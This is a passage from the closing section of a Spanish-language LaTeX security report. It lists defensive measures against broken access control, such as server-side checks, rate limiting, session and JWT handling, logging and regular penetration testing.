El control de acceso solo es efectivo si se realizan los filtrados y revisiones de las peticiones del lado del servidor, donde el atacante en primera instancia no puede modificar la verificación del control de acceso ni los metadatos. Para eso se detallan a continuación las siguientes medidas mitagatorias:

\vspace{1em}

\begin{itemize}
\item Limite la velocidad de acceso a la API y al controlador para minimizar el daño de las herramientas de ataque automatizadas.
\item Los controles de acceso a los modelos deben imponer la propiedad de los registros en lugar de aceptar que el usuario pueda crear, leer, actualizar o eliminar cualquier registro.
\item Implemente mecanismos de control de acceso una vez y reutilícelos en toda la aplicación, incluida la minimización del uso de intercambio de recursos entre orígenes (CORS).
\item Los identificadores de sesión con estado deben invalidarse en el servidor después de cerrar sesión. Los tokens JWT sin estado deberían ser de corta duración para minimizar la ventana de oportunidad para un atacante.
\item Registrar todo tipo de fallas po control de acceso detectados en el servicio.
\item Implementar un sistema de registro para realizar constantemente un seguimiento sobre las actividades realizadas de carga de archivos en el servidor, para indentificar usuarios y contenido del archivo cargado, y responder de una mejor forma ante un posible incidente generado a raíz de una carga maliciosa.
\item Realiza pruebas de penetración de forma regular para identificar y abordar posibles vulnerabilidades antes de que sean explotadas.
\end{itemize}
\end{itemize}

\newpage

\end{enumerate}

\end{document}